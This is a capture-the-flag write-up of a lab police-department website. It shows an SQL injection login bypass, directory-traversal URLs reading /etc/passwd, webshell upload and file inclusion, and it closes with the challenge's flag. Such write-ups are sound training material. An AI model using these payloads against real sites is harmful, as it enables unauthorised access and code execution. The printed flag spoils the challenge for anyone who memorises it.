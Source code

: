 # Checking the site

The website is the Racoon City Police Department's website.

![](screenshots/1.png)

# Login

There is an SQL injection on the login page. Using the standard `' OR 1=1 --` in the username and password instantly let us in.

![](screenshots/2.png)

The error messages are also verbose if the bypass is not achieved instantly.

![](screenshots/3.png)

After logging in, there is a case upload and gallery functionality.

# Gallery

Trying to open anything in the gallery results in an error message, but the `file` parameter is visible.

The parameter is vulnerable to directory traversal, and any file can be viewed with it, like `/etc/passwd` or the `index.php` (path from SQL error message as well).

```
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../etc/passwd
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../var/www/html/index.php
```

![](screenshots/4.png)

It is visible that the file is not read and printed, but included, as the php is executed and not printed.

# Cases

This is a file upload functionality. You can upload a file, usually without restriction.

The [shell.txt](workdir/shell.txt) webshell was uploaded to an unknown location.

# Exploit

The challenge description mentions `cases directory`. Using the gallery functionality, the `shell.txt` can be found by stepping 1 directory up a few times.

```
http://10.10.1.11:65304/pages/gallery.php?file=shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../../cases/shell.txt"
```

Alternatively to the upload directory, log poisoning or the session file can be abused to store php code.

![](screenshots/5.png)

Using the webshell, the flag can be found in [/root/Wesker.png](workdir/Wesker.png).

![](screenshots/6.png)

# Loot

The flag is inside the comment of the png.

```bash
exiftool Wesker.png
```

```
ExifTool Version Number         : 12.76
File Name                       : Wesker.png
Directory                       : .
File Size                       : 174 kB
File Modification Date/Time     : 2024:09:30 10:48:52+02:00
File Access Date/Time           : 2024:09:30 10:49:00+02:00
File Inode Change Date/Time     : 2024:09:30 10:48:52+02:00
File Permissions                : -rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 493
Image Height                    : 408
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Comment                         : CQ24{Th1sR3s1d3nt1snt3v1L}
Image Size                      : 493x408
Megapixels                      : 0.201
```

# Flag

`CQ24{Th1sR3s1d3nt1snt3v1L}`

# Source

The source was exfiltrated and can be found in [www.tar.gz](workdir/www.tar.gz).
